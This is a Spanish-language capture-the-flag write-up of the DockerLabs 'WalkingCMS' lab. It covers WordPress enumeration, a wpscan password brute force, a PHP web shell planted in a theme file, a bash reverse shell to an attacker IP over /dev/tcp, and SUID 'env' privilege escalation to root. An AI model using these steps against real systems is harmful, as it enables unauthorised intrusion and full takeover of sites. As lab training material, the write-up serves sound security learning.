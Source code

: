 # Máquina WalkingCMS

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 80.

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos la versión de Apache, un título, pero poca información relevante. Accedemos a la web para seguir inspeccionando:

![Pasted image 20240412122449](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a7fdac50-3ccd-43ab-9f48-48a8d310cd7b)


Se trata de la web por defecto de Apache, por lo que procederemos a realizar **fuzzing** para descubrir directorios y posibles archivos:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
________________________________________________
/icons/               (Status: 403) [Size: 275]
/wordpress/           (Status: 200) [Size: 52441]
/server-status/       (Status: 403) [Size: 275]  
```

Encontramos un directorio **wordpress**. Accedemos.

![Pasted image 20240412122740](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/556bf2c2-e6de-46d5-9bda-0c4fcebb7014)

Como efectivamente se trata de **WordPress**, utilizaremos la herramienta **wpscan** para enumerarla, para intentar encontrar posibles usuarios, directorios, plugins vulnerables, etc.

```shell
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
________________________________________________
[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

La información más importante que obtenemos del escaneo es un usuario -> **mario**
Lo aprovechamos para realizar un ataque de **fuerza bruta** usando otra vez **wpscan** y el famoso diccionario de contraseñas **rockyou**.

```shell
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
________________________________________________
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                                                                                
Trying mario / badboy Time: 00:00:01 <                                                                                                                                                                          > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love
```

El ataque de fuerza bruta da resultado y obtenemos la contraseña de **mario** -> **love**
Trataremos de encontrar el panel de login donde le podamos dar uso a estas credenciales usando de nuevo **gobuster**. En este caso haremos un escaneo por directorios y por archivos con extensiones como php o html.

```shell
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html
________________________________________________
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]             
/wp-login.php         (Status: 200) [Size: 6580]                                             
/license.txt          (Status: 200) [Size: 19915]                                            
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/readme.html          (Status: 200) [Size: 7401]                                              
/wp-trackback.php     (Status: 200) [Size: 136]                                               
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42]                                                
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]
```

Accedemos en la web al directorio **/wp-admin**:

![Pasted image 20240412123821](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9f71fbb1-ac16-4fb2-a8df-cb29a1d3ea20)

---------------
##  Explotación

Probamos las credenciales en el panel de login:
Logramos acceder como el usuario mario que es **administrador**.
Una vez dentro con sesión de administrador, una forma de lograr ejecución remota de comandos sobre la máquina -> (**RCE**), es editar alguno de los temas, en este caso se está usando el Twenty Twenty-Two en la página principal. Nos dirigimos a alguno de los recursos que tiene y editaremos por ejemplo el **index.php**

![Pasted image 20240412125523](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a489b0b4-5d3b-4980-89ff-93082e6b53f3)

Borraremos este código y pondremos el nuestro propio, que al ser interpretado nos permita enviar valores con los comandos que queremos ejecutar a través del método **GET**, y a través del parámetro **cmd**:

```php
<?php
	system($_GET['cmd']);
?>
```

Nos dirigimos a la ruta donde podremos encontrar los **temas** por defecto en wordpress, dentro de la ruta de nuestro tema que es el Twenty Twenty-Two hemos modificado el index.php. Así que cargamos la siguiente URL pasándole un valor al parámetro **cmd** que hemos definido:

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=id
```

Comprobamos que se ejecuta de forma correcta y hemos logrado el **RCE**.

![Pasted image 20240412125845](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f15be9cf-af40-4e2c-88e8-20904b54d17e)

A continuación nos enviamos la **Reverse shell** a nuestra máquina atacante, poniéndonos antes en escucha por el puerto 443 con netcat:

```shell
nc -nlvp 443
```

(Es posible que para escuchar con netcat por el puerto 443 necesites ser el usuario root)

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.39/443 0>%261"
```

Los **"%26"** corresponden al símbolo **"&"** de forma URL-encodeada para que no den conflicto.

Hemos ganado acceso a la máquina:

![Pasted image 20240412135523](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/3552ef3d-715a-41d9-a846-bc970b5c94a8)

------------
### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

-----------------
## Escalada de privilegios

En el /etc/passwd no encontramos ningún usuario **mario** al que podamos migrar con las credenciales que ya tenemos. Tampoco podemos hacer **"sudo -l**.
Buscaremos por binarios con permisos **SUID** desde la raíz:

```shell 
find / -perm -4000 2>/dev/null
________________________________________________
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
```

Nos llama la atención el binario **/usr/bin/env**.
Si no sabemos como explotarlo (o si no sabemos si es posible abusar de él para escalar privilegios), podemos recurrir a [GTFOBins](https://gtfobins.github.io/) , y si es crítico esta página nos indicará como podemos explotarlo. En este caso es sencillo ya que con env podemos lanzarnos directamente una consola, y al ser ejecutado como el root gracias al permiso **SUID**, esta consola será lanzada con sus permisos, de forma que hemos logrado el nivel de privilegios máximo sobre la máquina !

```bash
./usr/bin/env /bin/sh -p
________________________________________________
whoami
root
```

